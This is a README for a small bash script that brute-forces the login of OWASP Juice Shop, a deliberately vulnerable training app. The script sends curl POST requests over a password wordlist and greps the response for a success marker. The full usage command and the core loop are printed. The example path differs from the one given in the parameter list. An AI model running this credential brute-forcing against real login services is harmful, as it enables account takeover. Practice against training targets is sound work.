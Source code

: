 ﻿# Welcome to Curl Post Brute Force!

Hi! This tool allow you to make post request and it was developed to help you to solve juice shop brute force problems.

## Permission
After you clone the repository give permission to sh file.

    $ sudo chmod +x ./postCurl.sh

# Files

The main file is called **postCurl.sh**.
It's very simple to use, you just have to pass three parameters.

> **First**, for juice shop app you'll use the email. e.g admin@juice-sh.op
> **Second**, The host: http://localhost:3000/rest/user/login
> **Third**, You'll need to informe a wordlist

## Example
Execute the following code and don't forget to grab a cup of coffee.
**Don't forget to change the host.**

    $ ./postCurl.sh admin@juice-sh.op http://localhost:3000/user/rest/login /usr/share/wordlist/rockyou.txt

# How it works
First inside the file we have a simple parameters validate.

    if [ "$3" = "" ]; then
	    echo "How to use"
	    echo "./postCurl.sh [USERNAME] [HOST] [WORDLIST]"


After that we have a loop which **cat** a wordlist and put inside of **pass** variable.

    for pass in $(cat $3); do
    
Inside of the loop I made a **curl** request and put the response inside the **chamada** variable.

    chamada=$(curl -s --header "Content-Type: application/json" --request POST --data '{"email":"'$1'", "password":"'$pass'"}' $2)

I used this var to **grep** a specific word in a juice shop response and if the **if** found it, it will prints the username and password on the screen and break the loop.

    if grep "authentication" <<< "$chamada" ; then
		echo "[+] username: "$1 " , password: "$pass
		break
	fi

### Possibles upgrades.
|Feature|Benefits|
|--|--|
|sleep|it's help you not break the service|
|parameter to grep|for this first upload i put a hard code, but the good idea is that you able to choose what you looking for.|

